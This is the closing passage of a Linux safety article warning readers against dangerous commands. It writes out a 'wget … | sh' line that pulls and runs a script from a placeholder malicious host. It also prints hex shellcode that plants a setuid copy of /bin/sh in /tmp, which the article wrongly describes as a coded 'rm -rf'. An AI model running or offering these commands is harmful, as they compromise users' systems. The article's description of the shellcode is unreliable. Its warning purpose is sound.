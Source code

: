 ```
wget http://malicious_source -O- | sh
```

Such commands will download and run malicious scripts in your system, which can undermine the security of your system.

### 10. Disguised commands

There are many ways you can run commands in a Linux terminal. One such way is the hex-coded commands.

```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

While it looks fancy, this is a coded version of `rm -rf` command. It does the same effect as running the previous command. So, while copying and pasting such fancy commands from the internet, be cautious.

### Wrapping Up

![pebkac][8]

There is a famous computing term PEBKAC; “problem exists between keyboard and chair.”

Because in the end, it’s up to the user (you) to ensure that you don’t destroy the system by blindly running any dangerous command.

> It is not UNIX’s job to stop you from shooting your foot. If you so choose to do so, then it is UNIX’s job to deliver Mr. Bullet to Mr Foot in the most efficient way it knows.

And that line equally applies to Linux. You get full control over your operating system. What you choose to do with is totally up to you.

I advise these things to ensure a safer experience:

* Try and understand the commands you are about to run.
* Keep a backup of your system settings with Timeshift
* Keep a backup of personal data (home directory) using DejaDup

As I said, there is no fixed list of dangerous Linux commands. A lot more can be added to this list and there is simply no end to it.

I hope this gives you some hints about what you should not be doing to stay safe with Linux. Let me know if you have suggestions in the comment section.


[#]: subject: "10 Destructive Linux Commands You Should Never Run"
[#]: via: "https://itsfoss.com/dangerous-linux-commands/"
[#]: author: "Abhishek Prakash https://itsfoss.com/"
[#]: collector: "lkxed"
[#]: translator: "wxy"
[#]: reviewer: " "
[#]: publisher: " "
[#]: url: " "
[a]: https://itsfoss.com/
[b]: https://github.com/lkxed
[1]: https://itsfoss.com/sudo-rm-rf/
[2]: https://youtu.be/AiKPo14uVNU
[3]: https://linuxhandbook.com/mv-command/
[4]: https://linuxhandbook.com/mkfs-command/
[5]: https://linuxhandbook.com/dd-command/
[6]: https://linuxhandbook.com/linux-file-permissions/
[7]: https://itsfoss.com/homebrew-linux/
[8]: https://itsfoss.com/wp-content/uploads/2022/09/pebkac.jpg